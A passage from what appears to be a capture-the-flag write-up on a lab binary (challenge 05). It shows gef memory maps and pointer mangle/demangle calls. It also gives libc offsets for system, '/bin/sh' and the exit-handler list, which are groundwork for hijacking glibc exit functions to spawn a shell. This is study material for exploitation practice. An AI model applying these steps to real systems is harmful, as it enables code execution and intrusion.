 ```
0x00007f8c942b6000 0x00007f8c942b7000 0x0000000000000000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f8c942b7000 0x00007f8c942dd000 0x0000000000001000 r-x /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f8c942dd000 0x00007f8c942e7000 0x0000000000027000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f8c942e8000 0x00007f8c942ea000 0x0000000000031000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007f8c942ea000 0x00007f8c942ec000 0x0000000000033000 rw- /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
0x00007ffd966df000 0x00007ffd96700000 0x0000000000000000 rw- [stack]
0x00007ffd96702000 0x00007ffd96706000 0x0000000000000000 r-- [vvar]
0x00007ffd96706000 0x00007ffd96708000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

Which we can mangle/demangle like this:

```
>>> print(hex(demangle_instruction_ptr(0x246adb806c704263, 0x2131edb9f9eb9b08)))
0x7f8c942bad30
>>> print(hex(mangle_instruction_ptr(0x7f8c942bad30, 0x2131edb9f9eb9b08)))
0x246adb806c704263
```

Which we see in a different run, that the function that is stored there is `_dl_fini`. We also see that the offset to the libc `system` function is `0x7f15e5648810 - 0x00007f15e5600000 = 0x48810`. We also see that the offset to the libc string `/bin/sh` is `0x18cf2d`. We also see that the offset to `initial` is `0x22e1a0` (`0x7f15e582e1a0 - 0x00007f15e5600000`):

```
gef➤  p __exit_funcs
$1 = (struct exit_function_list *) 0x7f15e582e1a0 <initial>
gef➤  p __pointer_chk_guard_local
$2 = 0xc4ae1d0d94e44320
gef➤  x/20g 0x7f15e582e1a0
0x7f15e582e1a0 <initial>: 0x0 0x1
0x7f15e582e1b0 <initial+16>:  0x4 0xc430e2e39c21895c
0x7f15e582e1c0 <initial+32>:  0x0 0x0
0x7f15e582e1d0 <initial+48>:  0x0 0x0
0x7f15e582e1e0 <initial+64>:  0x0 0x0
0x7f15e582e1f0 <initial+80>:  0x0 0x0
0x7f15e582e200 <initial+96>:  0x0 0x0
0x7f15e582e210 <initial+112>: 0x0 0x0
0x7f15e582e220 <initial+128>: 0x0 0x0
0x7f15e582e230 <initial+144>: 0x0 0x0
gef➤  x/10g 0x7f15e5958d30
0x7f15e5958d30 <_dl_fini>:  0xe5894855fa1e0ff3  0x5441554156415741
0x7f15e5958d40 <_dl_fini+16>: 0x258b4c28ec834853  0x1ec83490002fcd4
0x7f15e5958d50 <_dl_fini+32>: 0x3145000001e1880f  0x2fcc82d8d4cf6
0x7f15e5958d60 <_dl_fini+48>: 0xb5058d48a41c8d4b  0x4805e3c1480002f2
0x7f15e5958d70 <_dl_fini+64>: 0x401f0f22ebc301  0x2ed0f15ffef894c
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start           End             Offset          Perm Path
0x00005591e8830000 0x00005591e8831000 0x0000000000000000 r-- /Hackery/shogun/challs/05/chall-05
0x00005591e8831000 0x00005591e8832000 0x0000000000001000 r-x /Hackery/shogun/challs/05/chall-05
0x00005591e8832000 0x00005591e8833000 0x0000000000002000 r-- /Hackery/shogun/challs/05/chall-05
0x00005591e8833000 0x00005591e8834000 0x0000000000002000 r-- /Hackery/shogun/challs/05/chall-05
0x00005591e8834000 0x00005591e8835000 0x0000000000003000 rw- /Hackery/shogun/challs/05/chall-05
0x00005591e8ab4000 0x00005591e8ad5000 0x0000000000000000 rw- [heap]
0x00007f15e5600000 0x00007f15e5622000 0x0000000000000000 r-- /home/guy/glibc-2.38/compiled-2.38/lib/libc.so.6
0x00007f15e5622000 0x00007f15e5772000 0x0000000000022000 r-x /home/guy/glibc-2.38/compiled-2.38/lib/libc.so.6
```